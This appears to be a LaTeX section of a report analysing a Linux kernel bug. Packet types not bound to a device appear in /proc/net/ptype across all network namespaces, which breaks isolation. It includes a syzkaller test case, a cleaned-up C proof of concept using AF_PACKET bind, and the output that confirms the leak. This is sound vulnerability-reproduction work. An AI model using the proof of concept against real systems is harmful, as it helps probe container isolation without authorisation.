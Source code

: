 \documentclass[10pt,twocolumn,a4paper]{article}
\begin{document}
\subsection{Bug Description}
Packets that are bound to devices are only shown in the namespace of the device. However, if packet
types are not bound to a device they have no reference to a namespace. This means they are shown in all network
namespaces. This allows a process to create a packet type in a network namespace. A second
process can see this packet type in a different network namespace thus breaking isolation.


\subsection{Bug Reproduction}
The analysis is done on the customized KIT kernel 5.6 can be found in the artifact repository\cite{2}.
Sadly the kernel that kit used is not suitable for custom debugging.
The test case that caused the bug given by syzcaller\cite{35} is the following: 
\begin{lstlisting}{caption=sender test case}
r0 = socket$packet(0x11, 0x2, 0x300)
bind$packet(r0, 
    &(0x7f0000000100)={0x11, 0xc, 0x0, 0x1, 0x0, 0x6,
    @multicast}, 0x14)
bind$packet(r0, 
&(0x7f0000000040)={0x11, 0x7, 0x0, 0x1, 0x0, 0x6,
@broadcast}, 0x14)
\end{lstlisting}
The receiver test case can also be taken from syzcaller but the process is tedious and error-prone.
We already know that the leakage happens in /proc/net/ptype, thus we can use cat.
Syzcaller provides tools to convert the test case to C code. 
Out of the box, this C code needs to be modified a bit to reproduce the bug.
After modifying and compiling we can execute the test case manually (with unshare -n and root if this
is out of scope). After the code is run one can see the following
in /proc/net/ptype:
\begin{lstlisting}
Type Device      Function
0800          ip_rcv
0806          arp_rcv
0007          packet_rcv // Our POC
86dd          ipv6_rcv
\end{lstlisting}
The proof of concept works. Sadly the syzcaller generated proof of concept is
not very readable. However using strace, radare2\cite{29} and gdb\cite{28} we can rewrite the code easily and get this
human-readable version:
\begin{lstlisting}{caption=cleaned up poc}
/*...*/
int main() {
    struct sockaddr  a = {.sa_family = AF_PACKET,.sa_data= "\000\f\000\000\000\000\001\
    \000\000\000\000\000\000"
    };
    struct sockaddr  b = {.sa_family = AF_PACKET,.sa_data= "\000\a\000\000\000\000\001\
    \000\000\006\377\377\377\377"
    };
    int sock = socket(AF_PACKET, SOCK_DGRAM, htons(ETH_P_ALL));

    bind(sock, &a, 20);
    bind(sock , &b, 20);
    return 0;
}
\end{lstlisting}
While this might not be the exact code that syzcaller gave out, it still
produces the same results in /proc/net/ptype. Reducing the test case it turns out that only one bind is necessary to trigger the bug. The data in the sockaddr struct seems to be arbitrary
as long as it does not describe a valid device. 
\end{document}
